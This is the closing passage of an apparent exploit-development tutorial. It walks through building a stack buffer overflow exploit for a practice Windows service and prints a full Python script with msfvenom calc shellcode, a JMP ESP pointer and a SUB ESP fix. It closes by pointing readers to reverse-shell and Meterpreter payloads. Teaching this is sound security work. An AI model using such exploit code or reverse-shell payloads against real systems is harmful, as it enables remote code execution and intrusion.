shellcode_calc += "\x15\x0d\xbc\x2e\x63\xa6\x19\xbb\xce\xab"
shellcode_calc += "\x99\x11\x0c\xd2\x19\x90\xec\x21\x01\xd1"
shellcode_calc += "\xe9\x6e\x85\x09\x83\xff\x60\x2e\x30\xff"
shellcode_calc += "\xa0\x4d\xd7\x93\x29\xbc\x72\x14\xcb\xc0"
```

---

Even though this looks like Python code, it isn't meaningful Python code in and
of itself. All it does is set up a string called `shellcode_calc` that contains
our binary shellcode. The code is suitable for copy-pasting in to our exploit,
but if you ran it as-is it wouldn't do anything useful. `msfvenom` can produce
shellcode in various formats. Some of them are "executable" formats (such as
`exe`, `dll` and `elf`) while others (such as `python`, `c` and `ruby`) are
simply "transform" formats, intended to be integrated in to your own exploits.

We see that `msfvenom` encoded our shellcode using `shikata_ga_nai`. This is
done because `windows/exec` shellcode normally contains one or both of the bad
characters we specified. `msfvenom` applied the `shikata_ga_nai` encoder to the
shellcode, prepended a `shikata_ga_nai` decoder stub to it, and found that it
no longer contained either of our bad characters. Knowing that the shellcode is
encoded, and has a decoder stub prepended to it, will be important later on.

\newpage
# Pop calc

With the ability to divert execution flow to some `"INT 3"` instructions on the
stack, and armed with our `windows/exec` shellcode from `msfvenom`, we're
finally ready to pop some calc.

You might be excited to take your `"INT 3"` executing exploit and drop your
shellcode in place, but there's one last thing we need to take in to account.

Remember how we noticed that `msfvenom` produced encoded shellcode? This
encoded shellcode has a decoder stub prepended to it. The decoder stub is
executable, but the encoded shellcode is not executable in its encoded state.
It is the decoder stub's job to iterate over the encoded shellcode and decode
it back to its valid calc-popping self. To cut a long story short, the decoder
stub is what is known as position-independent code. It needs to take a look at
itself, figure out where it is in memory, and from there look a few bytes ahead
to locate the encoded shellcode that it needs to decode. As part of figuring
out where the decoder stub itself is in memory, it performs an sequence of
instructions which are commonly referred to as a `GetPC` routine.

\framebox{
  \parbox{\textwidth}{
    \textbf{Pro tip}: The EIP register is traditionally known as the Program
    Counter (PC). The job of GetPC is to discover the current value of EIP (or
    PC) in order to know where in memory it is located, hence "Get PC".
  }
}

The encoder that `msfvenom` used in our case was the `shikata_ga_nai` encoder.
`shikata_ga_nai`'s `GetPC` routine, like many other `GetPC` routines, is a bit
of a destructive operation. The machine instructions that it executes in its
quest for its own address involves putting some data at **and around** the top
of the stack. It doesn't `PUSH` some values on to the stack moving the top of
the stack upwards, it has a tendency to destroy a couple of bytes either side
of `ESP`. This damage is a problem for us - because the encoded shellcode is
right at the current value of `ESP`! If we allow `GetPC` to blow a hole right
at `ESP` then it will change some of the code belonging to the shellcode
decoder and potentially the encoded shellcode, corrupting the machine code and
almost certainly crashing the process when the CPU tries to execute the
now-corrupted code.

We have two options for mitigating the damage caused by `GetPC` and ensuring it
doesn't corrupt our shellcode:

1. The lazy way
2. The right way

\newpage

**The lazy way**

Some people place what is known as a `NOP` sled in front of the encoded
shellcode. `NOP`, which stands for "No Operation", is a machine instruction
that does nothing. The "official" `NOP` instruction on Intel x86 is opcode
`\x90`.

\framebox{
  \parbox{\textwidth}{
    \textbf{Pro tip}: On x86 (and x86-64 outside of 64-bit mode),
    {\textbackslash}x90 is actually the instruction for "XCHG EAX,EAX" (h/t
    @TheColonial). This swaps the value in EAX with the value in EAX - which,
    obviously, does nothing.
  }
}

By putting a large number of `NOP`'s in front of the shellcode, `ESP` will
continue to point at the beginning of the `NOP` sled while `EIP` "slides"
through the `NOP`'s doing a whole bunch of nothing. By the time execution
reaches the shellcode decoder stub, `ESP` points far enough away from it so as
to not cause damage to the shellcode when `GetPC` blows a hole in the stack.

When I say "By putting a large number of `NOP`'s", people will just put more
and more `NOP`'s in the sled until their problem goes away. I believe the magic
number of `NOP`'s needed to dodge `GetPC`'s destruction is 12 or so, but it's
not uncommon to see people put a whole lot more than they need to.

Using a `NOP` sled to mitigate `GetPC` damage has two downsides:

1. It wastes what is, in some cases, precious space that could otherwise be spent on shellcode (Imagine if you could only slightly overflow a stack buffer. We've got space for thousands upon thousands of bytes of shellcode, but you wont always have such a luxury)
2. It demonstrates that you don't actually know what is going on, and you just throw things in your exploit until it works.

Don't be wasteful and lazy. Do it the right way.

**The right way**

The issue is that `GetPC` blows a hole at `ESP`. Rather than prepend `NOP`'s to
your shellcode, you already have code execution (if you know how to write
machine code) so just write some code that will subtract from `ESP`, moving it
"up" the stack and away from your shellcode. Then, like with the `NOP` sled
approach, the damage that `GetPC` causes will be far enough up the stack so as
not to disturb your shellcode.

Metasploit comes with a lightweight assembler, `metasm_shell.rb`, which by
default takes assembly input and generates Intel x86 machine code.

On Kali, `metasm_shell.rb` is at either:

* `/usr/share/metasploit-framework/tools/metasm_shell.rb`; or
* `/usr/share/metasploit-framework/tools/exploit/metasm_shell.rb`

Depending on how up to date your Kali's `metasploit-framework` package is.

If you're running Metasploit from a copy of Rapid7's git repository (as I do),
it's in `tools/exploits/`

\newpage

Running `metasm_shell.rb` gives us an interactive console at which to give it
assembly instructions:

```
% ~/opt/metasploit-framework/tools/exploit/metasm_shell.rb
type "exit" or "quit" to quit
use ";" or "\n" for newline
type "file <file>" to parse a GAS assembler source file

metasm >
```

---

We want to move `ESP` up the stack towards lower addresses, so ask
`metasm_shell.rb` to assemble the instruction `SUB ESP,0x10`

```
metasm > sub esp,0x10
"\x83\xec\x10"
```

---

This is machine code that will "drag" `ESP` far away enough up the stack to as
to not wreck our day. Importantly, it doesn't include any of the characters
that we know to be bad (`"\x00"` and `"\x0A"`). Weighing in at a tiny 3 bytes,
it is a whole lot more slick than just chucking `NOP`'s in until things work.

\framebox{
  \parbox{\textwidth}{
    \textbf{Pro tip}: Whenever you muck with ESP by adding to it, subtracting
    from it, or outright changing it, make sure it remains divisible by 4. ESP
    is naturally 4-byte aligned on x86, and you would do well to keep it that
    way.  32-bit processes running on 64-bit Windows (i.e. within WoW64) get
    subtly cranky when ESP is not 4-byte aligned, and various function calls
    made in that state quietly fail. It has been the source of many frustrated
    nights.  ESP is already 4-byte aligned, and by subtracting 0x10 from it
    (which is divisible by 4) we know it will remain 4-byte aligned.
  }
}

\newpage

**Popping calc**

Replacing the `"INT 3"` code in our exploit with this `"SUB ESP,0x10"` code,
followed by our `msfvenom` shellcode, gives us the following:

```{.python .numberLines}
#!/usr/bin/env python2
import socket
import struct

RHOST = "172.17.24.132"
RPORT = 31337

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))

buf_totlen = 1024
offset_srp = 146

ptr_jmp_esp = 0x080414C3

sub_esp_10 = "\x83\xec\x10"

shellcode_calc =  ""
shellcode_calc += "\xb8\x3e\x08\xbf\x9c\xdb\xdc\xd9\x74\x24"
shellcode_calc += "\xf4\x5f\x29\xc9\xb1\x31\x31\x47\x13\x03"
shellcode_calc += "\x47\x13\x83\xc7\x3a\xea\x4a\x60\xaa\x68"
shellcode_calc += "\xb4\x99\x2a\x0d\x3c\x7c\x1b\x0d\x5a\xf4"
shellcode_calc += "\x0b\xbd\x28\x58\xa7\x36\x7c\x49\x3c\x3a"
shellcode_calc += "\xa9\x7e\xf5\xf1\x8f\xb1\x06\xa9\xec\xd0"
shellcode_calc += "\x84\xb0\x20\x33\xb5\x7a\x35\x32\xf2\x67"
shellcode_calc += "\xb4\x66\xab\xec\x6b\x97\xd8\xb9\xb7\x1c"
shellcode_calc += "\x92\x2c\xb0\xc1\x62\x4e\x91\x57\xf9\x09"
shellcode_calc += "\x31\x59\x2e\x22\x78\x41\x33\x0f\x32\xfa"
shellcode_calc += "\x87\xfb\xc5\x2a\xd6\x04\x69\x13\xd7\xf6"
shellcode_calc += "\x73\x53\xdf\xe8\x01\xad\x1c\x94\x11\x6a"
shellcode_calc += "\x5f\x42\x97\x69\xc7\x01\x0f\x56\xf6\xc6"
shellcode_calc += "\xd6\x1d\xf4\xa3\x9d\x7a\x18\x35\x71\xf1"
shellcode_calc += "\x24\xbe\x74\xd6\xad\x84\x52\xf2\xf6\x5f"
shellcode_calc += "\xfa\xa3\x52\x31\x03\xb3\x3d\xee\xa1\xbf"
shellcode_calc += "\xd3\xfb\xdb\x9d\xb9\xfa\x6e\x98\x8f\xfd"
shellcode_calc += "\x70\xa3\xbf\x95\x41\x28\x50\xe1\x5d\xfb"
shellcode_calc += "\x15\x0d\xbc\x2e\x63\xa6\x19\xbb\xce\xab"
shellcode_calc += "\x99\x11\x0c\xd2\x19\x90\xec\x21\x01\xd1"
shellcode_calc += "\xe9\x6e\x85\x09\x83\xff\x60\x2e\x30\xff"
shellcode_calc += "\xa0\x4d\xd7\x93\x29\xbc\x72\x14\xcb\xc0"

buf = ""
buf += "A"*(offset_srp - len(buf))      # padding
buf += struct.pack("<I", ptr_jmp_esp)   # SRP overwrite
buf += sub_esp_10                       # ESP points here
buf += shellcode_calc
buf += "D"*(buf_totlen - len(buf))      # trailing padding
buf += "\n"

s.send(buf)
```

---

Running it against our service, if all goes well, we get calc!

There's every chance that your finished exploit won't pop calc the very first
time you run it. Computers are deterministic things though, and just as things
go right for a reason, things go wrong for a reason. Work through your exploit,
line by line, making sure it's doing what you expect it to. Double-check your
`msfvenom` usage and make sure you copied its output properly. Triple-check
your offsets, your bad characters, your approach to avoiding `GetPC`'s damage.
Re-read this tutorial from the beginning, making sure you understand everything
and have worked through all the steps. Set breakpoints in Immunity and step
into the `CALL` to `doResponse()`, step over its prologue, step over the
instructions in its body, step over its epilogue, step into its `RET`urn, step
into the bouncing off of the `"JMP ESP"` and step over your shellcode. Fixing
broken exploits is 90% of the battle, and trust me, you learn more from
debugging failed attempts than you do from celebrating working ones.

Once you land your first poppage of calc, congratulations! You've nailed a
working Stack Buffer Overflow exploit via Saved Return Pointer overwrite.
That's no small feat, and I bet you've never before been so excited to see a
calculator.

Well done :)



\newpage
# Get a shell / Outro

To recap, we now know how to:

* Examine a binary to determine some locations of interest;
* Explore function `CALL`/`RET`urn mechanics in a debugger and understand how they work;
* Trigger a simple Stack Buffer Overflow bug with a bunch of `A`'s;
* Discover the offset to a Saved Return Pointer with `pattern_create.rb` and `"!mona findmsp"`;
* Confirm the discovered offset and gain tight EIP control;
* Put stuff at a location that `ESP` points to at the time of the return to the overwritten Saved Return Pointer;
* Reason about and check for bad characters;
* Find a `"JMP ESP"` gadget;
* Generate calc-popping shellcode;
* Use `EIP` control and a `"JMP ESP"` gadget to cause execution of calc-popping shellcode, being mindful of the decoder stub's `GetPC` routine.

Popping calc is a fantastic achievement, and is reason in and of itself to be
excited. It demonstrates the ability to execute arbitrary code remotely.

Getting a remote shell on the target machine is now up to you. You will want to
find or generate Windows shellcode that will give you either a reverse shell or
bind shell (I prefer reverse shells for a few reasons).

You may want to play with:

* The `windows/shell_reverse_tcp` payload and catching it with `nc`; and/or
* The `windows/meterpreter/reverse_tcp` payload and catching it with Metasploit's `exploit/multi/handler` module.

I hope you're enjoyed your journey and gotten something out of it. It was my
pleasure to be a part of it. If you have any queries or concerns, please feel
free to reach out to me. If you have any suggestions for how I can improve this
tutorial, if you've spotted typos or errors, or if you have something you'd
like to contribute, I'd love to hear from you. Keep in mind that I may have
already addressed your suggestion, please check
<https://github.com/justinsteven/dostackbufferoverflowgood> for updates.

Good luck, have fun, and may your shells be forever plentiful.

Justin

<https://twitter.com/justinsteven>


